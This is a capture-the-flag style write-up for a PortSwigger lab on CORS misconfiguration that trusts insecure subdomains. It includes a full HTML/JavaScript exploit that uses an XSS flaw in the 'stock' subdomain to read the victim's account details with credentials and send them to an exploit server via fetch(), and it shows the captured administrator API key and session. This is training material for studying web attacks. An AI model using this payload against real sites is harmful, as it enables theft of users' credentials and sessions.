








# Lab: CORS vulnerability with trusted insecure protocols

**Link**: https://portswigger.net/web-security/cors/lab-breaking-https-attack

**Solution**:

In this lab, it didn’t reflect any origin or null

<p align="center" width="100%">
  
</p>

But it accept any subdomain in the original domain

<p align="center" width="100%">
  
</p>

So, we will search for any subdomains that have any vulnerabilities to make us of it.

If you navigate to the product details page, you will see subdomain called `stock`

<p align="center" width="100%">
  
</p>

let's pentest it

Lets send this request to the Repeater

<p align="center" width="100%">
  
</p>

There is a XSS vulnerability in this paramter

<p align="center" width="100%">
  
</p>

so, we can inject javascript code to send request from this domain `stock` which is trusted for the original domain.

- We will inject the previous script to the `document.location=stock.domain.com` paramter `productId` (which vuln from xss) to act that this script is executed from stock subdoiman

<p align="center" width="100%">
  
</p>

But this should be in one line for syntax error and URL encoded

<p align="center" width="100%">
  
</p>

Like the following

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Test</title>
</head>
<body>
    <script>
        document.location="http://stock.0a23001203e9d0d9c1d018f5009300f7.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();var url = 'https://0a23001203e9d0d9c1d018f5009300f7.web-security-academy.net/accountDetails';req.open('Get', url, true);req.withCredentials = true;req.send(null); req.onreadystatechange = function() {if (req.readyState == XMLHttpRequest.DONE) {fetch('https://exploit-0abe009903e9d069c124171b01ca0055.exploit-server.net/log?key'%2B req.responseText);}}%3c/script>&storeId=1";
    </script>
</body>
</html>
```

<p align="center" width="100%">
  
</p>

"username": "administrator", "email": "", "apikey": "MIdZ2IcCQ9hoY9591b7mfyWSdz3wrhpj", "sessions": [ "DASexN3FxL6bCEoGMVFE1oaUxCfRDgvH" ]}
